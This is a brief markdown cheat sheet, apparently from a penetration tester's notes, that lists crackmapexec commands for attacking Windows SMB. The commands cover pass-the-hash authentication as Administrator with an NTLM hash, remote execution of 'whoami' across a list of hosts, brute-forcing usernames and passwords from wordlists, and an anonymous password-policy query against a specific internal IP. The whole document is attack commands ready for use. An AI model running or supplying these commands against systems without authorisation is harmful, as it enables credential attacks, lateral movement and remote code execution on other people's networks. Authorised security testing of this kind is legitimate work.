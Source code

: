 # crackmapexec

## SMB

```csharp
crackmapexec smb <TARGET_IP> -d <DOMAIN> -u Administrator -H <NTLM HASH>
```

### Executing a command on a provided hosts list

```csharp
crackmapexec smb <HOST.lst> -d domain.com -u Administrator -H <NTLM HASH> -x 'whoami'
```

### Bruteforce attack

```csharp
crackmapexec smb <TARGET_IP> -u <user.lst> -p <pass.list>
```

### Password policy

```csharp
crackmapexec smb 10.110.0.222 --pass-pol -u '' -p ''
```


